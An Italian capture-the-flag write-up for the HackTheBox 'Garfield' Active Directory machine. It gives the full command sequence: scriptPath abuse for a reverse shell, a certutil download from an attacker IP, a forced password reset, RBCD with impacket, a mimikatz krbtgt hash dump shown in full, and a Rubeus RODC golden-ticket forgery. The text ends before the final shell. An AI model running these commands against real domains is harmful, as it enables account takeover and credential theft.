# **Garfield**

### Machine Information

```text
As is common in real life pentests, you will start the Garfield box with credentials for the following account j.arbuckle / Th1sD4mnC4t!@1978
```

## Reconnaissance



I servizi esposti fanno intendere che ci si trova in un dominio Active Directory.

Dominio:

- garfield.htb

Domain Controller: 

- DC01.garfield.htb

## SMB shares



Utenti:

- Administrator
- Guest
- krbtgt
- krbtgt_8245
- j.arbuckle
- l.wilson
- l.wilson_adm

Shares con il privilegio READ:

- IPC$
- NETLOGON
- SYSVOL



Si possiedono i privilegi per modificare e/o creare un nuovo script da eseguire con il login.

Si verifica su quali AD object si possiedono i privilegi di WRITE:

```bash
$ bloodyAD --host DC01 -d garfield.htb -u j.arbuckle -p 'Th1sD4mnC4t!@1978' get writable --right WRITE --detail

distinguishedName: CN=Liz Wilson,CN=Users,DC=garfield,DC=htb
scriptPath: WRITE

distinguishedName: CN=Liz Wilson ADM,CN=Users,DC=garfield,DC=htb
scriptPath: WRITE
```

## WriteScriptPath

Si sfruttano i permessi di scrittura sull'attributo **scriptPath** su l.wilson per eseguire script.bat che lancia una reverse shell.

```bash
$ smbclient --user='j.arbuckle' --password='Th1sD4mnC4t!@1978' --command="cd garfield.htb/scripts;put script.bat;ls" //DC01.garfield.htb/SYSVOL
```



```bash
$ bloodyAD --host DC01 -d garfield.htb -u j.arbuckle -p 'Th1sD4mnC4t!@1978' set object l.wilson scriptPath -v 'script.bat'
```



## Shell as l.wilson



### BloodHound

Si utilizza SharpHound per collezionare dati sul dominio.

```powershell
PS > certutil.exe -urlcache -split -f http://10.10.15.94:9001/SharpHound.exe sh.exe

PS > ./sh.exe -c All --ZipFileName lwilson.zip
```

Si analizza con BloodHound.

### ForceChangePassword

Con l.wilson si ha il privilegio di ForceChangePassword su l.wilson_adm.



Dalla reverse shell si esegue:

```powershell
PS > Set-ADAccountPassword -Identity "l.wilson_adm" -Reset -NewPassword (ConvertTo-SecureString -AsPlainText "Password123!" -Force)
```

E si verifica con:

```bash
$ nxc smb garfield.htb -u l.wilson_adm -p 'Password123!'

SMB         10.129.31.239   445    DC01             [+] garfield.htb\l.wilson_adm:Password123!
```



Si accede alla shell con l.wilson_adm e si ottiene la user.txt.



## Privilege Escalation



E' presente un **Read-Only Domain Controller** per il quale l.wilson_adm può diventare membro del gruppo **RODC Administrators**.

### AddSelf

```powershell
PS > Add-ADGroupMember -Identity "RODC Administrators" -Members l.wilson_adm
```



### RODC 



Il RODC è raggiungile dalla rete interna.

- RODC01: 192.168.100.2

### Internal Network Foothold





### Resource-based Constrained Delegation abuse

1\. Nuovo computer account aggiunto nel dominio



2\. Tell RODC01 to trust the COMPUTER for delegation (to act on behalf of other accounts)



```powershell
PS > Set-ADComputer RODC01 -PrincipalsAllowedToDelegateToAccount FAKE$

PS > Get-ADComputer RODC01 -Properties PrincipalsAllowedToDelegateToAccount
```

3\. FAKE richiede un ST per impersonare Administrator



```bash
$ proxychains impacket-getST garfield.htb/'FAKE$':'Password123!' -spn 'cifs/RODC01.garfield.htb' -impersonate 'Administrator' -dc-ip 10.129.244.207
```

4\. Accesso a RODC01 come Administrator



```bash
$ KRB5CCNAME=/tmp/Garfield/Administrator@cifs_RODC01.garfield.htb@GARFIELD.HTB.ccache proxychains impacket-psexec garfield.htb/'Administrator@RODC01.garfield.htb' -k -no-pass -dc-ip 10.129.244.207 -target-ip 192.168.100.2
```

### RODC01 Golden Ticket

Con i privilegi di Administrator su RODC01 si è in grado di accedere alle credenziali in cache.

Ogni RODC ha associato un **krbtgt_XXXXX**. Ottenere le credenziali di questo account significa poter creare Golden Ticket per autenticarsi al RODC o al DC per richiedere un ST.

- krbtgt_8245

Si utilizza mimikatz per il dumping delle credenziali.

```
C:\Windows\Temp> .\mimikatz.exe "privilege::debug"

  .#####.   mimikatz 2.2.0 (x64) #18362 Feb 29 2020 11:13:36
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > http://pingcastle.com / http://mysmartlogon.com   ***/

mimikatz(commandline) # privilege::debug
Privilege '20' OK
```
```
lsadump::lsa

RID  : 00000643 (1603)
User : krbtgt_8245
ERROR kuhl_m_lsadump_lsa_user ; SamQueryInformationUser c0000003
```
```
lsadump::lsa /inject /name:krbtgt_8245
mimikatz # Domain : GARFIELD / S-1-5-21-2502726253-3859040611-225969357

RID  : 00000643 (1603)
User : krbtgt_8245

 * Primary
    NTLM : 445aa4221e751da37a10241d962780e2
    LM   : 
  Hash NTLM: 445aa4221e751da37a10241d962780e2
    ntlm- 0: 445aa4221e751da37a10241d962780e2
    lm  - 0: 0ab3d34a182bb016fc4cfd26544a9f16

 * WDigest
    01  6d31d1f92ef6d85f5517944f98bf5753
    02  8c46bd5ddc680291e70800990dbc02e3
    03  9ffbc24f29b9bb3df3c32b76631ff874
    04  6d31d1f92ef6d85f5517944f98bf5753
    05  8c46bd5ddc680291e70800990dbc02e3
    06  8fc97c500bf9c7c4a0d34a497f9c5245
    07  6d31d1f92ef6d85f5517944f98bf5753
    08  c4bac61b7ecb407d358f836d2f4e19c6
    09  c4bac61b7ecb407d358f836d2f4e19c6
    10  d8938c80e1e0c80a2ec1d8b06f42cb31
    11  67f002aa49f4400fa970a53e294f4bee
    12  c4bac61b7ecb407d358f836d2f4e19c6
    13  56062e2db43bc0069deb86de87509ca6
    14  67f002aa49f4400fa970a53e294f4bee
    15  7250fcfc09d9cb93345c0c1393e19e52
    16  7250fcfc09d9cb93345c0c1393e19e52
    17  04b30cd8b5381d4b8458b0c996503a91
    18  b48bda9ef98982d5ee33766a74880e01
    19  bb365cf4f0bcdadf35b6a9b04c58257b
    20  85addbd6d603cca1b500f2da02b205d0
    21  b6186618611e202aae4141716e6603f5
    22  b6186618611e202aae4141716e6603f5
    23  f3f6c9408db132bf8e59413b7b40bb16
    24  0acf88cc5cb3b35888708ebefe658b6f
    25  0acf88cc5cb3b35888708ebefe658b6f
    26  08b8941632a5017e7178a3761dfaf7fb
    27  c1b2fd89d0dafb5f9e18147042bdc433
    28  712f0b6ed3b7eb7f6f135a1e298c4e09
    29  bf8d51270f7f657079bb9744446d70cb

 * Kerberos
    Default Salt : GARFIELD.HTBkrbtgt_8245
    Credentials
      des_cbc_md5       : d540fe6192b9ecfe

 * Kerberos-Newer-Keys
    Default Salt : GARFIELD.HTBkrbtgt_8245
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : d6c93cbe006372adb8403630f9e86594f52c8105a52f9b21fef62e9c7a75e240
      aes128_hmac       (4096) : 124c0fd09f5fa4efca8d9f1da91369e5
      des_cbc_md5       (4096) : d540fe6192b9ecfe

 * NTLM-Strong-NTOWF
    Random Value : f4b51c2c0d006172304e31dbc6e0de6b
```

Per far si che il RODC Golden Ticket sia valido è necessario che l'account Administrator:

1. Deve essere incluso nel RODC01 **msDS-RevealOnDemandGroup**;

2. Non deve essere incluso nel RODC01 **msDS-NeverRevealGroup**. 





```bash
$ bloodyAD --host DC01 -d garfield.htb -u l.wilson_adm -p 'Password123!' set object "RODC01$" msDS-RevealOnDemandGroup -v 'CN=ADMINISTRATOR,CN=USERS,DC=GARFIELD,DC=HTB' 
```

Allora, si genera un RODC Golden Ticket: 



```powershell
PS > .\Rubeus.exe golden `
/domain:garfield.htb `
/user:Administrator /id:500 `
/rodcNumber:8245 /sid:S-1-5-21-2502726253-3859040611-225969357 `
/aes256:d6c93cbe006372adb8403630f9e86594f52c8105a52f9b21fef62e9c7a75e240 `
/outfile:rodc_golden.kirbi
```

Si richiede un TGS per Administrator a DC01:

```powershell
PS > .\Rubeus.exe asktgs `
/ticket:C:\Users\l.wilson_adm\Documents\rodc_golden_2026_04_19_18_22_57_Administrator_to_krbtgt@GARFIELD.HTB.kirbi `
/service:cifs/DC01.garfield.htb /dc:DC01.garfield.htb /ptt
```



Si decodifica e converte il ticket dal format kirbi a ccache:

```bash
$ cat Administrator.kirbi.b64 | sed 's| ||g' | sed ':a;N;$!ba;s/\n//g' | base64 -d > Administrator.kirbi

$ impacket-ticketConverter /tmp/Garfield/Administrator.kirbi ./tgs.ccache
```

Si accede alla shell come Administrator:

